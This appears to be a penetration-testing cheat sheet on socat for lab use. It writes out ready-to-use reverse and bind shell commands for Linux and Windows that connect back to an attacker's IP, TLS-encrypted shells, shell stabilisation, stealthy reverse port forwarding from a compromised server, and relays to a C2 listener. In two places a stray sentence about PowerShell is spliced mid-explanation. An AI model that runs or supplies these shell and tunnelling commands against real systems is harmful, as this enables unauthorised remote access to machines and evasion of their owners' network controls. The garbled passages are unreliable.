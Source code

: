 # Socat 

[Socat](https://linux.die.net/man/1/socat) is a command-line utility that establishes two bidirectional byte streams and transfers data between them. For penetration testing, it is similar to Netcat but has additional useful features. 

`socat` requires:
1. "-" to transfer data between STDIO and remote host
1. protocol name
1. Any protocols, options, port ARE colon delimited

```bash
socat - TCP4:<remoteIP>:PORT

socat TCP4-LISTEN:8080 STDOUT

socat TCP4:ip:port EXEC:/bin/bash
```

#### Reverse Shells

Start a listener:
```bash
socat TCP-L:<PORT> -                                 # connect regardless with '-'
socat -d -d TCP-LISTEN:8080 STDOUT                   # -d -d = increase verbosity of output#
socat TCP4-LISTEN:8080,fork file:filename.txt,create 
# create specifies that a new file will be created.
# fork creates a child process once connection is made to the listener(multiple connections allowed)
```

Connect to reverse Shell:
```powershell
# Windows!
.\socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
.\socat.exe TCP:<IP>:<Port> EXEC:cmd.exe,pty,stderr,setsid,sigint,sane
```
On Linux
```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

#### Bind Shells

Start a bind listener
```bash
socat TCP-L:<PORT> EXEC:"bash -li"
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
Connect to target regardless:
```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

#### Shell stabilisation
```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
[CTRL+Z]
stty raw -echo; fg 
```

Fixing terminal size
```bash
stty size
stty -rows 48 -columns 120
```

#### File transfers
```bash
socat TCP4-LISTEN:$PORT,fork file:$filename
```

#### Special upload precompiled socat binary 
```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
1. `pty`, allocates a pseudo-terminal on the target -- part of the stabilisation, knowing how to properly use PowerShell to achieve our goals is extremely important. Refer stabilisation process
1. `stderr`, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
1. `sigint`, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
1. `setsid`, creates the process in a new session
1. `sane`, stabilises the terminal, attempting to "normalise" it

Similarly on Windows:
```batch
.\socat.exe TCP-LISTEN:443,fork EXEC:cmd.exe,pty,stderr,setsid,sigint,sane
```

### Encrypted Shells
 
Generate a Certificate
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt

# req indicates that this is a certificate signing request. 
# -x509 specifies that we want an X.509 certificate
# -newkey rsa:4096 creates a new certificate request and a new private key using  RSA, with the key size(Optional sizes!) being 4096 bits. 
# -days 365 shows that the validity of our certificate will be one year
# -subj sets data, such as organization and country, via the command-line.
# -nodes simplifies our command and does not encrypt the private key
# -keyout `PRIVATE\_KEY` specifies the filename where we want toation, knowing how to properly use PowerShell to achieve our goals is extremely important. Refer to save our private key
# -out CERTIFICATE specifies the filename to which we want to write the certificate request
```
Merge the two files:
```bash
cat shell.key shell.crt > shell.pem
```
Setup reverse shell listener 
```bash
# Linux
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 - # verify=0 means dont bother trying to validate cert 
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0,fork EXEC:/bin/bash
```
If on windows:
```powershell
.\socat.exe OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:cmd.exe,pty,std
err,setsid,sigint,sane
```

The same for bind shell
```powershell
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash # For windows after:" ,verify=0 EXEC='cmd.exe' "
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
`socat` listener and connection on windows
```bash
socat.exe -d OPENSSL-LISTEN:5678,cert=<cert>, verify=0 STDOUT, bind=127.0.0.1
socat.exe OPENSSL:127.0.0.1:5678, verify=0 EXEC=’cmd.exe
```

#### Less Common Cool Usages
```bash
# Connect to a http server
socat TCP4:domain.com:80 -
# Connect to a https server
socat TCP4:domain.com:443 -

# Output hexdump from a port
socat -x tcp-listen:$port,fork -

# (sleep is necessary to prevent socat closing socket before data received)
(echo -e "GET / HTTP/1.1\r\nHost: butzel.info\r\n\r" && sleep 1) \ | socat TCP4:domain.com:80 -

# http to https 'Proxy' (for an webserver without TLS-Support)
socat OPENSSL-LISTEN:443,reuseaddr,pf=ip4,fork,cert=server.pem,cafile=client.crt,verify=0 TCP4-CONNECT:127.0.0.1:80

# udp to tcp
socat -u udp-recvfrom:1234,fork tcp:localhost:4321

# TOR-forwarding (needs tor-daemon on port 9050 running)
socat tcp4-listen:8080,reuseaddr,fork socks4A:127.0.0.1:t0rhidd3ns3rvice.onion:80,socksport=9050
#https://superuser.com/questions/1302861/how-i-can-make-port-forwarding-using-tor#1302869
```

Socat as a Proxy
```bash
socat TCP-LISTEN:6969,fork,reuseaddr,bind=127.0.0.1 TCP:remote_ip:remote_port
```

From [fsodogandji](https://gist.github.com/fsodogandji/8521333)
```bash
# Tunnel from a proxy
socat TCP4-L:10005,reuseaddr,fork,bind=127.0.1.1 PROXY:127.0.0.1,proxyport=10005
# Installs a simple TCP port forwarder. With TCP4-LISTEN it listens on local port "www" until a connection comes in, accepts it,|
#The service running on 172.16.245.11:5432 is forward to 172.16.251.139:5666|
socat -d -d -lmlocal2 TCP4-LISTEN:5666,bind=172.16.251.139,su=nobody,fork,reuseaddr TCP4:172.16.245.11:5432
```


## Port Redirection and Tunnelling with `socat`

[[Port-Redirection-And-Tunnelling]] with `socat`

Port Forwarding
```bash
# Use to kill and manages jobs
jobs
kill $jobID

# Not stealthy will open a port on a compromised machine!
# Create a listener to port forward traffic from $targetToForwardAddr:$ForwardedPort
socat tcp-l:33060,fork,reuseaddr tcp:$targetToForwardAddr:$ForwardedPort &

# Stealthier
# Create a local port relay on attacking machine
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
# Reverse port forward from a compormised server back to  
socat tcp:$AttackingMachine:8001 tcp:$targetToForwardAddr:$ForwardedPort,fork &

```

Reverse Shell Relay 
```bash
# RemoteBox - create a listener that connects back to to the address of another box
socat tcp-l:8000 tcp:$LocalBoxAddr:443 &
# LocalBox has listen on port 443

# For port reuse from some proxy to another listening C2/Server/etc 
socat TCP-LISTEN:8000,reuseaddr,fork TCP:<destination_ip>:<destination_port>
```


## References

[jackadamson](https://jackadamson.github.io/cheatsheets/socat/)
[gothburz](https://github.com/gothburz/OSCP-PWK2.0/blob/master/practical-tools/socat-shell-cheatsheet.md)
[cheat](https://github.com/cheat/cheatsheets/blob/master/socat0)
[THM Wreath Room](https://tryhackme.com/room/wreath)
[fsodogandji](https://gist.github.com/fsodogandji/8521333)